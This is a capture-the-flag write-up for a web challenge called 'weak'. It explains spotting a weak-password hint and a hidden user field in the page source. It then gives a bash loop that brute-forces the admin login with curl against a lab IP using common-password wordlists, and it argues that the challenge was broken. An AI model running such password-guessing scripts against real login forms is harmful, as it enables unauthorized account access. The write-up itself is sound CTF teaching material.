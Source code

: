## weak

**Category:** Web

**Points:** 250

**Solves:** --

**Description:**

(No description)

### Write-up

so there's some TODO comments inside the generated page source that reads : 

```
<!--
TODO: Change admin password. Currently using very weak password.
-->
```

This gives a strong suggestion about the challange needed to be bruteforced or better yet since it's weak passwords,
we can utilize a list of known weak passwords from the net. so, it's a wordlist attack.

The 2nd thing to note that there it a hiddden form with the name "**u**" in the page source that is placed outside of the <form> tag so it's not
included in the request. Let's just assume the author wants us to include the hidden parameter in the request and change the "**u**" value into
"**admin**" instead (assuming the "u" stands for user and the author mentioned ```STOP! ONLY admin can view restricted info (^^,)``` at the front page)

```
<input type="text" name="p" value="" /><input type="submit" value="Check" />
</form><input type="hidden" name="u" value="user" />
```

---

Next just write a simple script to iterate a list of weak passwords and feed it into "**p**"

The breakdown is quite straightworward :

send a POST request to `http://<ip>:<port>/` with parameters "**p**=$wordlist_line" and "**u**=admin" and hash the response body.
All the response body should return the same if it fails but if we hit the jackpot the response body will return the key and the hash will change.

```bash
while IFS='' read -r line || [[ -n "$line" ]]; do
curl -s --user-agent Mozilla/5.0  --data "p=$line&u=admin" http://192.168.0.10:6553/ | sha1sum | cut -d" " -f1 > hash.txt
myhash=$(cat hash.txt);
if [ "$myhash" == "bf2d5e289c65a443ac879b045699b3fa6aee0f4b" ]; then
echo "Testing : $line"
else
echo "YEAH : $line"
exit
fi
done < "$1"
```

---

Run that and feed it with danielmiessler seclist collection of 10k most common password or 500 worst password and you should be golden... Right????

But unfortunately this is not the case, we didn't solve this even after throwing rockyou at it... so what's the catch?

The catch is the simple fact that the question itself is buggy and broken. After the competition, we *ehem* managed to acquire the source code and noticed that there is a check on a parameter named "**password**" before the rest of the parameter is being checked.


Unfortunately on the generated HTML of the index page there is no "**password**" parameter present thus it making it impossible for anyone to solve the question that the time.

One could argue that you need to assume there is some unknown parameters, but just consider the exponential growth in entropy and keyspace here if we need to bruteforce both the actual password and a random non-existant parameter name at the same time...

So we conclude that the question is broken in the first place. Check out the [source code & judge for yourself](https://github.com/najashark/KICTM-2017-CTF-Writeup/blob/master/web/weak/index.php)
